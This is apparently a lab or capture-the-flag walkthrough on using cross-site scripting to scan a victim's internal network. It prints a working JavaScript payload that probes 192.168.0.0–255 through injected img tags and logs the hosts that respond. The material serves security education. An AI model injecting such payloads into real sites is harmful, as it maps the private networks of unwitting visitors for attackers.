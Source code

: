 *JavascriptIsAwesome*

### Using XSS for IP and Port Scanning 

Cross-site scripting can be used for all sorts of mischief, one being the ability to scan a victims internal network and look for open ports. If an attacker is interested in what other devices are connected on the network, they can use Javascript to make requests to a range of IP addresses and determine which one responds.

On the XSS Playground, go to the IP/Port scanning tab and review a script to scan the internal network.


Understand the basic proof of concept script.

Then create a file on your computer with the script, modify it to suit your network and run it. See if it picks up any of your devices that has a webserver running.   

```
IP and Port Scanning with XSS

On the application layer your browser has no notion of internal and external IP addresses. So any website is able to tell your browser to request a resource from your internal network.

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">

Please keep in mind this is a proof of concept and there are many factors that will effect results such as response times, firewall rules, cross origin policies and more. Our browsers can conduct a basic network scan and infer about existing IP's, hostnames and services. As this is a learning exercise assume the factors do not apply here.

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255

 <script>
 for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
 }
</script> 

After you've found an valid IP you can then use the same method above and include a port number. However, the method described here only works with web servers (as its looking for the favicon image). A more detailed port scanner can be found here. As previously stated, this page is a proof of concept, you can create scripts which have much more capability.

https://github.com/aabeling/portscan


```

